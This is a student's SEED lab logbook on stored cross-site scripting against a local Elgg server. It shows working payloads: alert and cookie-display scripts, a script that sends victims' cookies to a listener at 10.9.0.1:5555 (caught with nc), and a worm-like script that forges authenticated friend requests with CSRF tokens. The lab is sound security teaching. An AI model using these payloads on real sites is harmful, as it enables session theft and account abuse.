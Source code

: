 # Seedlab Week #7 (Cross-Site Scripting XSS Attack Lab)

# Question 1

### Task 1: Posting a Malicious Message to Display an Alert Window

In this task, our goal was to embed a JavaScript program in the Elgg user profile. In this case, we will insert the following script:

```html
<script>alert('XSS');</script>
```

First, we logged in with the `alice` username and `seedalice` password. Then, we navigated to Alice's profile page at `http://www.seed-server.com/profile/alice`, clicked on `Edit profile`, selected the Editor mode option, pasted the JavaScript script into the `Brief description` field and saved it.

As a result, any user who opened our profile page saw an alert window on the screen, as shown below. This happens because when visiting the profile page, the script tag is loaded and executed which can be used for Cross Site Scripting.

<p align="center" justify="center">
  <img src="./assets/LOGBOOK7/task1.png"/>
</p>

### Task 2: Posting a Malicious Message to Display Cookies

In this task, we aimed to show the user's cookies in an alert window. For this, we used the following script:

```html
<script>alert(document.cookie);</script>
```

The solution for this task was similar to the previous one: we inserted the script in the `Brief description` field of Alice's profile. Then, we logged in from another account (`boby` username and `seedboby` password).

When the visiting Alice's profile page, the previous script was executed, and we saw our cookies in the alert box. This shows us a simple example of how the script can be used maliciously.

<p align="center" justify="center">
  <img src="./assets/LOGBOOK7/task2.png"/>
</p>

### Task 3: Stealing Cookies from the Victim’s Machine

In this task, our objective was to retrieve cookies from another user and access them from another source. To do this, we decided to use the following script:

```html
<script>
    document.write('<img src=http://10.9.0.1:5555?c=' + escape(document.cookie) + ' >');
</script>
```

This code sends the cookies to port 5555, so we needed to listen on this port by using the command `nc -lknv 5555` in our terminal. After this, if we placed the code in Alice's profile, log in with Boby's account and visit Alice's profile, the script would be executed and we would receive the cookies in the terminal.

The output from terminal:

<p align="center" justify="center">
  <img src="./assets/LOGBOOK7/task3.png"/>
</p>

### Task 4: Becoming the Victim’s Friend

For this final task, we needed to write an XSS worm that would automatically add Samy as a friend to anyone who opened Samy's page.

#### Analyze the HTTP request

Before preparing the script, we had to find out how the HTTP request for adding a new friend looks like. To achieve this, we used Firefox’s `Header Live` tool.

We opened the `Header Live` and logged in as Samy (`samy`, `seedsamy`). We then opened Alice's profile and clicked on `Add friend`. The extension allowed us to see the output shown below:

<p align="center" justify="center">
  <img src="./assets/LOGBOOK7/task4.1.png"/>
</p>

By analyzing the first request we are able to retrieve all the information necessary. We discovered that it was a `GET` request with this url: `http://www.seed-server.com/action/friends/add?friend=56&__elgg_ts=1731083830&__elgg_token=-TLgvgywckY6XBpLAcdx4w&__elgg_ts=1731083830&__elgg_token=-TLgvgywckY6XBpLAcdx4w`

#### Performing the Attack

For the next step, we modified the script template to send a request to add a friend, using the request structure previously analyzed. The final result of this script was the following:

```html
<script type="text/javascript">
    window.onload = function () {
        var Ajax=null;
        var ts = "&__elgg_ts=" + elgg.security.token.__elgg_ts;  /* (1) */
        var token = "&__elgg_token=" + elgg.security.token.__elgg_token; /* (2) */
        
        //Construct the HTTP request to add Samy as a friend.
        var sendurl = "http://www.seed-server.com/action/friends/add?friend=59" + ts + token + ts + token;
        
        //Create and send Ajax request to add friend
        Ajax=new XMLHttpRequest();
        Ajax.open("GET", sendurl, true);
        Ajax.send();
    }
</script>
```

We constructed the `sendurl` variable based on the request URL, using Samy's friend ID (found as `"owner_guid":59` in the page HTML).

To prepare the attack, we then placed the code in Samy's `About me` section (using `Edit HTML` to insert the code) and visited his profile page with a different account (Boby).

By doing this, the script was executed and, as a result, simply by visiting Samy's page, Boby automatically sent a request to add Samy as a friend (which can be confirmed in Samy's perspective).

<p align="center" justify="center">
  <img src="./assets/LOGBOOK7/task4.2.png"/>
</p>

#### Task 4: Question 1

> Explain the purpose of Lines 1 and 2, why are they are needed?

After analyzing the request that is sent upon clicking the `Add Friend` button, we can see that a timestamp and a token are passed, in order validate the request. Therefore, the purpose of both lines (1) and (2) is to obtain/prepare these values so that we can send them in our request, as they are expected by server. 
Without these lines, our XSS attack would be unable to perform authenticated actions (like adding friends).  
Specifically the purpose of each line is:
  * First line: retrieve and add the timestamp security token.
  * Second line: retrieve and add the CSRF token.

#### Task4: Question 2

> If the Elgg application only provide the Editor mode for the "About Me" field, i.e., you cannot switch to the Text mode, can you still launch a successful attack?

To be able to launch the attack, we needed to add the `<script>` tag to the `About Me` section, so that when the website renders the tag, it executes the code contained within the script.  
This exploit can only happen in the Text mode because any text that is written in Editor mode is escaped, leading to safer text that is rendered exactly as plaintext when shown again in the `About Me` section.  
This can be seen if we write `<script>alert('XSS');</script>` in visual editor, save and then analyze it has HTML, which would show the following: `<p>&lt;script&gt;alert('XSS');&lt;/script&gt;</p>` (same output but characters are escaped).  
In conclusion, if the Elgg application only provided the Editor mode for the "About me" section, we could not launch this attack, at least not using the profile description.

# Question 2

This XSS attack can be classified as **Stored XSS**.  
In this attack, we start by saving the malicious payload (the JavaScript script) in the database ("About Me" section of the user profile) of a legitimate source (the Elgg website). After this, any user that accesses this website and visits the user profile will execute this malicious script and trigger its effects (add the user as a friend). This XSS pattern fits the **Stored XSS** category and is very similar to the Samy Worm studied in class.
